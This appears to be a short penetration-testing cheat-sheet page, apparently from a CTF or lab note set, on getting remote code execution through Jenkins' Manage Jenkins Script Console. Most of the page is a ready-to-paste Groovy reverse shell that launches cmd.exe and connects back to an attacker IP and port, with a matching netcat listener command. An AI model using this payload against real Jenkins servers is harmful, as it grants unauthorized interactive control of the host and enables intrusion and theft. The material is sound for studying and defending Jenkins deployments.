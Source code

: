 # Jenkins / askjeeves

If you look at Jenkins, check Manage Jenkins page and script console. This is the most likely the way you can execute RCE to the target system.

### [Jenkins Penetration Testing](https://github.com/gquere/pwn_jenkins) / [Script Console - Reverse Shell](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)

### Look for 'Manage Jenkins' by admin.

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

### Look for Script Console in 'Manage Jenkins'.

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

### Reverse shell

{% code overflow="wrap" %}
```bash
kali> rlwrap nc -nlvp 4444 

# Add teh following to the Script Console field above. 
# Change the IP address and port number 
String host="x.x.x.x";
int port=4444;
String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{% endcode %}

